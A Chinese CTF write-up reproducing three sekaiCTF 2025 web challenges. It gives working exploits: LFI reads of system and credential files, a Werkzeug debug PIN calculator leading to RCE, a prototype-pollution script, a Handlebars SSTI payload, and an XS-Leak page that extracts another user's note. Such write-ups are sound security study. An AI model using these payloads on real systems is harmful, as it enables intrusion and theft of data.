[sekaiCTF 2025] 部分赛题复现
===

错过了今年的 sekai CTF, 做一下里面的题看看;

> ~不得不说 sekai CTF 的 UI 做的非常精美, 看着跟音游一样; 看了一下果然是樱花友人办的~

## [Web] My flask app

### 信息收集

#### 前端

用 docker 搭完了之后启动:





需要点这个确定, 不过鼠标移动过去按钮就会自己跑; 看一下源码:

```javascript
this.yesBtn.addEventListener('mouseenter', () => this.handleYesHover());

handleYesHover() {
    this.moveButtonsRandomly();
}
```

现在知道这个按钮叫 `yesBtn`, 试试在控制台直接输入:

```javascript
document.getElementById('yesBtn').click();
```


输出了个成功文本, 但是好像也没什么用, 考虑别的方向;

#### 目录爆破



扫出控制台界面, 这是一个很经典的 Flask 控制台地址, 需要 PIN 码登录, 显然这里也只能搁置; 只能再扫, 换 kali 上的 `gobuster` 扫出还有其他界面:



> 这里应该是字典问题, 把 `gobuster` 的这个字典拷贝出来就行了, 也算个坑, 下次需要注意;
> 换上大字典之后就扫出来了:
>  

### 文件包含漏洞 

访问这个 `/view` , 显示 "Filename is required", 加上这个参数:

```
/view?filename=/etc/passwd
```



爆出 passwd 了, 说明有 LFI; 接下来尝试读 flask 的默认位置 app 文件:

```
/view?filename=/app/app.py
```

爆出源码:

```python
from flask import Flask, request, render_template

app = Flask(__name__)

@app.route('/')
def hello_world():
    return render_template('index.html')

@app.route('/view')
def view():
    filename = request.args.get('filename')
    if not filename:
        return "Filename is required", 400
    try:
        with open(filename, 'r') as file:
            content = file.read()
        return content, 200
    except FileNotFoundError:
        return "File not found", 404
    except Exception as e:
        return f"Error: {str(e)}", 500

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```

再确认一下环境: python 3.11.14

```
/view?filename=/proc/self/environ
```



### 破解 Flask PIN

#### PIN 组成

> 之前在 Polar CTF 一篇笔记里已经记过, 再记一遍: [PolarCTF: Flask_pin](https://r4x.top/2025/09/27/polar_wp1/#WEB-flask-pin)

Flask 的 PIN 码计算仅与 werkzeug 的 debug 模块有关: **低版本用 MD5, 高版本用 SHA1**(一般是 Python 3.8+); 显然这里就是 SHA1

PIN 六大生成要素:

- username, 用户名;
- modname, 默认为 flask.app;
- appname, 默认为 Flask;
- moddir, flask 库下 app.py 的绝对路径;
- uuidnode, 网络地址 mac 的十进制数;
- machine_id, 机器 id, docker 也会读;

#### 利用 LFI 读关键信息

1. 网卡信息: 

```
/view?filename=/sys/class/net/eth0/address
```



转为十进制之后是 `2485378023426`;

2. 机器 id:

```
/view?filename=/etc/machine-id
/view?filename=/proc/self/cgroup
```

`machine-id` 显示不存在, 而 `/proc/self/cgroup` 显示为 `0::/`, 这也是个无效地址, 考虑其他替代方案

3. boot id: `55acad97-d910-4579-af72-9ee4bb49cc30 `

```
/view?filename=/proc/sys/kernel/random/boot_id
```



为什么要读这个数据, 稍后会总结;

4. userid: 在 `/etc/passwd` 中之前就能看见有一个显然是用户自建的账户, 叫做 `nobody`, 应该就是这个, 如果不对, 再尝试 root;

#### **Flask PIN 对 Boot id 的读取**

查阅了一下资料和源码, Flask PIN 在 **`machine-id` 不存在**的时候会转向 `boot-id` 来生成, 源码片段有:

```python
for filename in '/etc/machine-id', '/proc/sys/kernel/random/boot_id'
```

按这个顺序尝试读取。若第一个成功, 就用第一个; 否则尝试第二个。

#### Flask PIN 与 Werkzeug

此外, 还需要知道一点, Flask PIN 的生成算法是高度依赖 Werkzeug 的版本的

#### exp

随便截一个包, 能看见版本: 

> Werkzeug/3.1.3 Python/3.11.14

```python
# 高版本用 SHA1, 低版本用 MD5
# python 3.11.14
import hashlib
from itertools import chain
probably_public_bits = [
    'nobody',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    # getattr(mod, '__file__', None),
    '/usr/local/lib/python3.11/site-packages/flask/app.py'
]

private_bits = [
    '2485378023426',  # str(uuid.getnode()),  /sys/class/net/eth0(网卡名字)/address


    '55acad97-d910-4579-af72-9ee4bb49cc30'
    # get_machine_id(), /etc/machine-id, 如果是容器环境, 还可能会贴上 /proc/self/cgroup
    #
    # 如果 machine-id 不存在, 则会使用 boot_id, /proc/sys/kernel/random/boot_id, 注意, 第二个参数的横线别删!!
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
for group_size in (5, 4, 3):
    if len(num) % group_size == 0:
        rv = '-'.join(
            num[x:x + group_size].rjust(group_size, '0')
            for x in range(0, len(num), group_size)
        )
        break
else:
    rv = num

print(rv)
```



解开控制台:



#### RCE

这样执行就行了, 和 ssti 的 rce 差不多:

```python
__import__('os').popen('cmd').read()
```



拿到 flag;

### 总结

题目考查 LFI + Flask PIN 的组合拳, 最后实现 RCE, 中间踩了一些小坑, 在这里记录一下:

- Flask PIN 生成要素的机器码部分有顺位读取的机制;
- userid 去 `/etc/passwd` 看;
- 机器码部分的横线 `-` 别删!!

## [Web] vite

用 docker 搭完建了个 `9002:1337` 的端口映射。


### 题解

完全没有头绪, fuzz 和路由也没有发现, 只能看一下官方 wp:

```python
import requests, base64

base_url = "http://127.0.0.1:9002"
# base_url = "https://vite-bjkv8aqvjdlb.chals.sekai.team/"

resp = requests.post(
    f"{base_url}/a",
    data={
        "__proto__.source": """
Object.prototype.flag = btoa(process.binding('spawn_sync').spawn({ file: '/flag', args: [ '/flag' ], stdio: [ {type:'pipe',readable:!0,writable:!1}, {type:'pipe',readable:!1,writable:!0}, {type:'pipe',readable:!1,writable:!0} ]}).output.toString())
""",
    },
    headers={
        "Origin": base_url,
    },
    verify=False,
)

print(base64.b64decode(resp.headers['flag']).decode())
```

这居然是个**原型链污染**漏洞, 实在是没想到。过段时间再恶补这块的知识。

## [Web] rednote

~幻视:小红书~

### 信息收集

打开并注册一个账户, 发现是笔记发布网站:


稍微试了一下 xss, 传上去没有被挡, 但是回显的结果里面没有 note 的内容:



抓包看一下回显:

```json
 const note = JSON.parse(decodeURIComponent("%7B%22id%22%3A%22a6f49b12-f07e-41af-a10a-89b47650d77e%22%2C%22title%22%3A%22whatisthis%22%2C%22note%22%3A%22%3Cscript%3Ealert(%5C%221%5C%22)%3B%3Cscript%2F%3E%5Cr%5Cnhayhayhay%5Cr%5Cn%3Cbr%3E%5Cr%5Cnbeybeybey%22%2C%22user%22%3A%22hacker%22%7D"));
```

也就是说网站直接把传入的数据当做 json 保存了起来, 而不是直接 WAF 掉;

做到这里没有头绪了, 看了一下 WP, 了解了这里是一处 SSTI。

### Handlebars 模板注入 (SSTI)

#### Handlebars 模板

Handlebars 是基于 JS 的模板, 地位和 Jinja2 - Python 类似;

快速了解一下这个模板, 提取一下关键点;

> 参考博客: [稀土博客](https://juejin.cn/post/7433819909613191180)

> 官网手册: [Handlebars.cn](https://www.handlebarsjs.cn/guide/)

- Handlebars 表达式: `{{ }}`

形如:

```js
<p>{{firstname}} {{lastname}}</p>
```

```js
<script id="my-template" type="text/x-handlebars-template">
  <h1>Hello, {{name}}!</h1>
</script>
```

-   计算上下文:
  
    如 `#each` 和 `#with` 更改当前代码块的值。

    -   `#with` 助手 (Helper 函数) 代码注入到对象的属性中:
  
        ```js

        ```
    
    -   `each` 助手代码会迭代一个数组:

        ```js
        <ul class="people_list">
        {{#each people}}
            <li>{{this}}</li>
        {{/each}}
        </ul>
        ```

    -   `#if` 助手:

        ```js
        {{#if isAdmin}}
        <p>Welcome, Admin!</p>
        {{else}}
        <p>Welcome, Guest!</p>
        {{/if}}
        ```

    -   自定义 Helper:

        ```js
        Handlebars.registerHelper("uppercase", function (str) {
        return str.toUpperCase();
        });

        //调用
        <p>{{uppercase name}}</p>
        ```

    - 部分模板 (Partials)

        用于复用模板代码, 可以将常用的模板片段定义为部分模板,然后在主模板中嵌入使用。

        ```js
        Handlebars.registerPartial("userInfo", "<p>Name: {{name}}</p>");

        // 使用
        {{> userInfo}}
        ```

#### 注入

> 参考博客: [Handlebars库 模板注入导致RCE 0day](https://xz.aliyun.com/news/4327)

Handlebars 本身是安全模板, 但它允许:

- **访问原型链** (constructor / proto)

> 居然支持原型链, 怪不得老被打;

- 使用 `{{#with}}`、`{{#each}}`、`lookup()` 等方式逃逸字符串;

这里形成了一条攻击链:

```
Handlebars SSTI → CSP Misconfig → Stored XSS → 获取 flag
```

Handlebars SSTI 的 payload 是一个 html 页面:

vuln:

```js
var handlebars = require('handlebars'),
  fs = require('fs');
var storeName = "console.log(process.pid)" // this should be a user-controlled string
function getStoreName(){
  return storeName;
}

var scope = {
  getStoreName: getStoreName
}

fs.readFile('example.html', 'utf-8', function(error, source){
  var template = handlebars.compile(source);
  var html = template(data);
  console.log(html)
});
```

exp:

```js
{{#with this as |test|}}
// with is a helper that sets whichever assigned to it as the context, we name our context test. 
  {{#with (test.constructor.getOwnPropertyDescriptor this "getStoreName")}} // get the context resulted from the evaluated function, in this case, the descriptor of this.getStoreName where this is the template scope defined in data variable in test.js
    {{#with (test.constructor.defineProperty test.constructor.prototype "toString" this)}} // overwrite Object.prototype.toString with "getStoreName()" defined in test.js
      {{#with (test.constructor.constructor "test")}} {{/with}} // call the Function constructor.
    {{/with}}
  {{/with}}
{{/with}}
```

### @starting-style 

`@starting-style` 是 HTML/CSS 提案中一个 非常新的 `CSS at-rule`, 其意义是**表示过渡动画的起始样式**。例如:

```css
@starting-style {
    color: red;
    opacity: 0;
  /* styles applied only at the start of a transition */
}
```

`@starting-style` 本身的语法非常严格, 属性值中不能出现非法字符。如果 `@starting-style` 内部规则无效 → 整块被忽略; 但是如果
CSS 解析导致的渲染失败, 浏览器会**直接中止整个 stylesheet 的解析**。

### XS-Leak

Handlebars 的特点：

- 变量默认 HTML 转义, 但**不会转义 CSS**;
- 也不会转义 属性上下文中的特殊字符


例如:

```js
<style>
@starting-style {
    {{userInput}}
}
</style>
```

合法输入: 例如 `color = red;` ->  CSS 解析错误, 加载失败 -> 页面直接白屏
非法输入: 例如 `invalid` -> CSS 不能解析 -> `@starting-style` 被忽略后加载

这里就是 XS-Leak, XS-Leak 和 sqli 中的布尔盲注非常接近, 不依赖 XSS、不读页面内容，但能推断信息的攻击。 

### exp

```js
<html>
<body>
  <iframe sandbox="allow-forms allow-scripts allow-popups" srcdoc=""></iframe>
  <script>
    const $ = document.querySelector.bind(document);
    const params = new URLSearchParams(location.search);

    const TARGET = "http://rednote.chals.sekai.team"; // TODO: CHANGE THIS
    let KNOWN = params.get("k") || "SEKAI{";
    let ALPHABET = "}_abcdefghijklmnopqrstuvwxyz".substring("}_abcdefghijklmnopqrstuvwxyz".indexOf(location.hash.slice(1)));
  
    const sleep = ms => new Promise(r => setTimeout(r, ms));

    const frameHTML = `
      <form method=POST action="${TARGET}/create" target="pepega">
        <input name=title>
        <input name=note>
      </form>
      <script>
        const createNote = async (title, note) => {
          w = window.open("", "pepega");
          document.querySelector("input[name=title]").value = title;
          document.querySelector("input[name=note]").value = note;
          document.forms[0].submit();
          await new Promise(r => setTimeout(r, 1500));
          w.close();
        };
        window.onmessage = (e) => {
          if (e.data.title && e.data.note) createNote(e.data.title, e.data.note);
        };
      </scr${""}ipt>
    `;
    const frame = $("iframe");
    frame.srcdoc = frameHTML;

    const cssCrash = `
      hihi
      <style>
        @starting-style {
          *::first-letter {
            color: red;
          }
        }
      </style>
    `.split("\n").map(s => s.trim()).join("");

    const createNote = (title, note) => {
      frame.contentWindow.postMessage({ title, note }, "*");
    };

    const oracle = async (q) => {
      createNote(q, cssCrash);
      await sleep(1500);

      const url = `${TARGET}/search?query=${encodeURIComponent(q)}`;

      w = window.open(url);
      await new Promise(r => setTimeout(r, 2000));
      w.location = "about:blank";
      w.location = url + "#" + Math.random();
      await new Promise(r => setTimeout(r, 200));
      let result;
      try {
        w.location.href;
        result = false;
      } catch {
        result = true;
      }
      w.close();
  
      return result;
    }

    window.onload = async () => {
      if (params.has("debug")) return;
      await sleep(1000);
      while (!KNOWN.endsWith("}")) {
        for (const c of ALPHABET) {
          await sleep(1000);
          const query = KNOWN + c;
          document.title = `testing: ${query}`;
          if (await oracle(query)) {
            navigator.sendBeacon("/correct_" + query);
            ALPHABET = "}_abcdefghijklmnopqrstuvwxyz";
            KNOWN = query;
            document.title = `correct: ${query}`;
            break;
          }
          else {
            navigator.sendBeacon("/incorrect_" + query);
            document.title = `incorrect: ${query}`;
          }
        }
      }
    }

  </script>
</body>
</html>
```

### 总结

| 阶段 | 漏洞                                             |
|:----:| ------------------------------------------------|
| 1    | CSS 注入                                        |
| 2    | @starting-style 产生可观测 side channel（白屏）  |
| 3    | XS-Leak：用来盲读其他用户 note 内容              |
| 4    | note 内容进入 Handlebars → Prototype Pollution  |
| 5    | RCE                                             |


